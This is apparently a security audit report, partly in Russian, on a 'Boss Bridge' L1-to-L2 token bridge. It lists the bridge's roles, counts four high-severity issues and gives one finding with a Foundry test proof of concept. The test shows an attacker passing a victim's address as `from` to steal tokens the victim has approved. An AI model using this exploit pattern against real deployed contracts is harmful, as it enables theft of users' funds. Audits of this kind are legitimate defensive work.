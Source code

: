     - TokenFactory.sol
  - Tokens:
    - L1Token.sol (And copies, with different names & initial supplies)

## Roles

- Bridge Owner: A centralized bridge owner who can:
  - pause/unpause the bridge in the event of an emergency
  - set `Signers` (see below)
- Signer: Users who can "send" a token from L2 -> L1. 
- Vault: The contract owned by the bridge that holds the tokens. 
- Users: Users mainly only call `depositTokensToL2`, when they want to send tokens from L1 -> L2. 

# Executive Summary
## Issues found

| Severtity | Number of issues found |
| --------- | ---------------------- |
| High      | 4                      |
| Medium    | 0                      |
| Low       | 0                      |
| Info      | 0                      |
| Total     | 4                      |

# Findings

### [H-1] Возможность манипулирования параметром `from` в функции `L1BossBridge:depositTokensToL2`, что позволяет произвести выпуск токенов на L2 за счет жертвы

**Description:**

В контракте `L1BossBridge:depositTokensToL2`  есть возможность манипулирования параметром `from`, что при условии что жертва осуществила `approve` для контракта `BossBridge` осуществить кражу токенов путем указания `from` адрес жертвы, а `l2Recipient` - адрес злоумышленника.

**Impact:** 

Легитимный пользователь потеряет все свои токены на уровне L1.

**Proof of Concept:**

```javascript

    function testcanMoveApproveTokensOfOthersUsers() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(user);
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit (user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);
        vm.stopPrank();

    }

```